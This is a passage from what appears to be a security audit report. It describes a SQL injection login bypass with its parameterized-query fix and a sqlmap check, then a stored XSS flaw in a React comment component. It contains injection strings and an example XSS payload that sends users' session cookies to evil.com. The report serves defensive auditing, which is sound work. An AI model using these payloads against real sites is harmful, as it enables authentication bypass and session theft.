 **Vulnerability:** Unsanitized user input directly concatenated into SQL query

**Exploit example:**
```javascript
// Attacker input:
email = "admin@example.com' OR '1'='1"
password = "anything' OR '1'='1"

// Results in:
SELECT * FROM users WHERE email = 'admin@example.com' OR '1'='1' AND password = 'anything' OR '1'='1'
// Always returns true → authentication bypass
```

**Impact:**
- Full database access
- Authentication bypass
- Data exfiltration
- Potential remote code execution

**Fix (HIGH PRIORITY):**
```javascript
// ✅ SECURE: Use parameterized queries
const query = 'SELECT * FROM users WHERE email = ? AND password = ?';
const user = await db.query(query, [email, hashedPassword]);
```

**Verification:**
```bash
# Test with SQLMap
sqlmap -u "http://localhost/api/login" --data "email=test&password=test" --batch
```

**References:**
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- CWE-89: https://cwe.mitre.org/data/definitions/89.html

---

### CVE-2: Stored Cross-Site Scripting (XSS)

**Severity:** CRITICAL (CVSS 8.7)
**Category:** XSS (OWASP A03:2021)

**Location:** `src/components/CommentDisplay.tsx:23`

**Vulnerable code:**
```javascript
// ⚠️ CRITICAL VULNERABILITY
function CommentDisplay({ comment }) {
  return <div dangerouslySetInnerHTML={{ __html: comment.text }} />;
}
```

**Vulnerability:** User-generated content rendered as raw HTML without sanitization

**Exploit example:**
```javascript
// Attacker submits comment:
comment.text = '<img src=x onerror="fetch(\'https://evil.com/steal?cookie=\'+document.cookie)" />'

// When other users view the comment:
// - Malicious script executes
// - Steals session cookies
// - Sends to attacker's server
```
